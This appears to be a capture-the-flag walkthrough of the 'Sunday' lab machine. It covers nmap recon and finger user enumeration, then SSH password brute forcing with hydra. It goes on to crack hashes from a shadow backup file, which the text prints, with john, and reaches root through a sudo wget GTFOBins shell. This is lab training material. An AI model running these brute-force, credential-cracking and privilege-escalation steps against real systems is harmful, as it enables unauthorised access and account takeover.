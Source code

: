 # Connect to the machine 

use openvpn or another vpn to connect to the machine as follows 

```shell
openvpn lab_acountname.ovpn
```

after that try to ping the machine to make sure you are connected 


```shell
ping 10.10.10.76
```

if you get response then we are ready to enumerate


# Recon

 using Nmap with default scripts with default scripts and with services versions

```shell
nmap -sV -sC 10.10.10.76
```


which results to 

```shell

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-19 03:02 EDT
Nmap scan report for sunday.htb (10.10.10.76)
Host is up (0.065s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port79-TCP:V=7.94%I=7%D=8/19%Time=64E06934%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,12,"No\x20one\x20logged\x20on\r\n")%r(GetRequest<i cutted the rest here >

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.87 seconds
```


to summery this result we have 4 ports open :

1. 79 finger
2. 111 rpcbind
3. 515 printer

# Enumeration

As I am not familiar with these Services i will search the internet for exploitation for each and started with finger :

## finger 

i found this [link](https://book.hacktricks.xyz/network-services-pentesting/pentesting-finger) usefull as it explains what the service is used for and how to enumerate it , but it looks like we will get some usernames from this service.

trying to Enumerate it with 
```shell
echo "root" | nc -vn 10.10.10.76 79

->
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
root     Super-User            console      <Oct 14, 2022>
```

it looks like the service works and the root user exists.


using this [script](https://pentestmonkey.net/tools/user-enumeration/finger-user-enum) to brute force the service for available users 

```shell
perl finger-user-enum.pl -U  /usr/share/wordlists/rockyou.txt -t 10.10.10.76

```

i got alot of answers as numbers and names and not user names, but i noticed just two users **sunny,sammy** have a when and where value , so i feel that they are the intended users from this service.

i couldnt find usefull information about attacking the other two services so i decided to go back to **recon** and this time using the nmap flag **-p-** which returned more nonstandard port

and found ssh on 22022 

so i ll use this to try to login in to the account sunny and then sammy

## bruteforcing


i tried brute-forcing the ssh service using hydra as follows (i tried different word list till this one worked for me), note that ssh is slow and yo cant use a huge wordlist :

```shell
hydra -l sunny -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt ssh://10.10.10.76:22022
```

which gaved me the passwrd **sunday**

## ssh

```shell
ssh sunny@10.10.10.76 -p 22022
```

and we got an initial foothold :)

finding the user.txt file 
```shell

find /home -name "user.txt"

->
/home/sammy/user.txt
```

and you can get the flag with the cat command

```shell
cat /home/sammy/user.txt 
```

## Privilege Escalation

using sudo -l we can see our sudo privileges 

```shell
sudo -l

->
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll

```

running the script as sudo 
```shell
sudo /root/troll
testing
uid=0(root) gid=0(root)
```

nothing usefull and we dont have permission over the file as it is in the root directory.

looking at the history file with the command `history` showed an interesting file for backup **/backup/shadow.backup**

```shell

mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

```

it looks like a backup for the /etc/shadow file , we can see from the \$5\$  that it is SHA-256 and we can try bruteforcing it using john the ripper 

```shell 
john shadow --wordlist=/usr/share/wordlists/rockyou.txt 

->
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (sammy)     
1g 0:00:00:38 DONE (2023-08-19 04:25) 0.02631g/s 5376p/s 5376c/s 5376C/s domonique1..canpanita
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
(shadow is a copy of the backup file i copied to my attack host )


now we have the host sammy, lets log as sammy using 
```shell
su sammy
```

then running 

```shell
sudo -l

->
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```

we can execute wget as root 

going to the site https://gtfobins.github.io/ and searching for wget,
we see that we can get a root shell using the following commands 

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

and we landed in a root shell :)

and we can read the root flag in 
/root/root.txt